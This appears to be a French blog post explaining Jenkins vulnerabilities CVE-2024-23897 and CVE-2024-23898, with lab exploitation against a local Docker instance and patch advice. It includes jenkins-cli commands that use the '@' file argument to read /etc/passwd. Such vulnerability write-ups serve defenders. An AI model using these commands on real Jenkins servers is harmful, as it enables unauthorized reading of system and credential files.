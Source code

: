```yaml
---
title : "Jenkins : Deux vulnérabilités critiques (CVE-2024-23897 - CVE-2024-23898) Exploitation & Correctifs"
date : 2024-02-01T09:21:51Z
draft : false
images: [/images/jenkins-rce.jpg]
featuredImage: "/images/jenkins-rce.jpg"
featuredImagePreview: "/images/jenkins-rce.jpg"
---
```



## Introduction

Les chercheurs en sécurité de SonarSource ont découvert deux failles de sécurité dans Jenkins : CVE-2024-23897 et CVE-2024-23898. Jenkins a été informé de la découverte de ces vulnérabilités le 13 novembre 2023.

Deux vulnérabilités sont expliquées :

* 𝗖𝗩𝗘-𝟮𝟬𝟮𝟰-𝟮𝟯𝟴𝟵𝟳 : 

C'est une vulnérabilité qui permet à un attaquant non authentifié, et disposant de la permission "overall/read", de lire les données des fichiers présents sur le serveur. Sans cette permission, il est possible de lire les premières lignes des fichiers. 

Versions vulnérables : Les versions antérieures à 2.442 et 2.426.3 LTS

* 𝗖𝗩𝗘-𝟮𝟬𝟮𝟰-𝟮𝟯𝟴𝟵𝟴 : 

󠁝󠀠C'est une vulnérabilité qui  permet à un attaquant d'exécuter des commandes à distance en incitant un utilisateur à cliquer sur un lien malveillant. Elle est de type "cross-site WebSocket hijacking (CSWSH)".

Versions vulnérables : La version 2.217 à la version 2.441 (incluses toutes deux), LTS de la version 2.222.1 à la version 2.426.2 
	(toutes deux incluses).


  ## Exploitation de 𝗖𝗩𝗘-𝟮𝟬𝟮𝟰-𝟮𝟯𝟴𝟵𝟳


J'ai hosté Jenkins avec le projet Vulnhub disponible sur https://github.com/vulhub/vulhub.

![VulnHub](/images/jenkinslocalhost.png)

### Détection de la vulnérabilité 

![Nuclei](/images/jenkinsnuclei.png)


### Exploitation de la vulnérabilité 

Un utilisateur disposant des identifiants de connexion peut lire un fichier au complet (exemple : /etc/passwd). 

```
java -jar jenkins-cli.jar -noCertificateCheck -s http://localhost:8080/ -auth admin:admin connect-node "@/etc/passwd"
```
![Utilisateur authentifié](/images/jenkins_user_authentified.png)


Un attaquant non authentifié ou sans les autorisations de lecture globales nécessaires, peut seulement lire 3 lignes : Lire la première ligne 

```
java -jar jenkins-cli.jar -noCertificateCheck -s http://localhost:8080/ who-am-i "@/etc/passwd"
```

![POC 1](/images/poc1.png)


Lire la deuxième ligne 

```
java -jar jenkins-cli.jar -noCertificateCheck -s http://localhost:8080/ enable-job "@/etc/passwd"
```
![POC 2](/images/poc21.png)


Lire la troisième ligne 

```
java -jar jenkins-cli.jar -noCertificateCheck -s http://localhost:8080/ help "@/etc/passwd"
```

![POC 3](/images/poc31.png)



## Exploitation de 𝗖𝗩𝗘-𝟮𝟬𝟮𝟰-𝟮𝟯𝟴𝟵𝟴

On installe Jenkins 2.440 qui est une version vulnérable avec Docker.

Les commandes suivantes permettent d'installer et de lancer Jenkins en local.

```
sudo docker pull jenkins/jenkins:2.440-jdk17
```
```
sudo docker run -p 8080:8080 jenkins/jenkins:2.440-jdk17

```

![Dashboard Jenkins 2.440](/images/dashboardjenkins.png)

### Exploitation de la vulnérabilité 


{{< youtube 7Ox6g7S-1ag >}}


## Correctifs

Mettre à jour la dernière version de Jenkins. Un correctif est déjà disponible.

https://www.jenkins.io/security/advisory/2024-01-24/#SECURITY-3314